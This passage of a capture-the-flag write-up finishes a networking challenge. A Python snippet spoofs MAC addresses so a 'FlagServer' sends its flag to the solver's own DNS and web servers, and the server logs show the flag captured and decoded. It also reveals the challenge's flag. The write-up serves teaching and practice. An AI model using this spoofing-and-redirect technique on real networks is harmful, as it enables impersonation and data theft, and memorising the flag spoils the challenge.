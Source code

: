 #### 5. Send an other request to the **FlagServer** - this time using the `0x03`-byte message type - to make the **FlagServer** send the flag to, what they think is, `example.com`, i.e. us.

```python
# Tell the FlagServer to send the flag:
print('Make FlagServer transmit the flag to (- what they think is -) http://example.com/{flag}')
message_to_flag_server = bytearray(
	dhcp_server_mac + # src mac
	flag_server_mac + # dst mac
	b'\x03'
)
send_message_to_flag_server(message_to_flag_server)
```

#### 6. Receive the flag.

After sending the previous request to the **FlagServer**, we'll receive an incoming request to our **DNS server**:
```bash
└─$ python Server.py        
DNS Listening on 192.168.178.79:53 ...
Request from ('44.203.85.176', 57501) for example.com
```

Right after that, we'll notice an incoming request to our **web server**:
```bash
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
44.203.85.176 - - [15/Apr/2024 01:15:58] code 404, message File not found
44.203.85.176 - - [15/Apr/2024 01:15:58] "GET /PCTF%7Bd0nt_r3u5e_th3_n0nc3_d4839ed727736624%7D HTTP/1.1" 404 -
```

Of course, we won't know the flag in advance, so we couldn't setup a file named like the flag; thus the **web server** will clearly respond with a **404** when being asked for the specified ressource, but we can still extract the name of the requested ressource and url-decode it to receive the flag:
```python
from urllib.parse import unquote
print(unquote('PCTF%7Bd0nt_r3u5e_th3_n0nc3_d4839ed727736624%7D'))
```

And finally, there we go: `PCTF{d0nt_r3u5e_th3_n0nc3_d4839ed727736624}`

## Resources
### Networking related
- [Wikipedia: DHCP - Dynamic Host Configuration Protocol](https://en.wikipedia.org/wiki/Dynamic_Host_Configuration_Protocol)
- [Wikipedia: DNS - Domain Name System](https://en.wikipedia.org/wiki/Domain_Name_System)
- [Wikipedia: IP address](https://en.wikipedia.org/wiki/IP_address)
- [Wikipedia: MAC address](https://en.wikipedia.org/wiki/MAC_address)
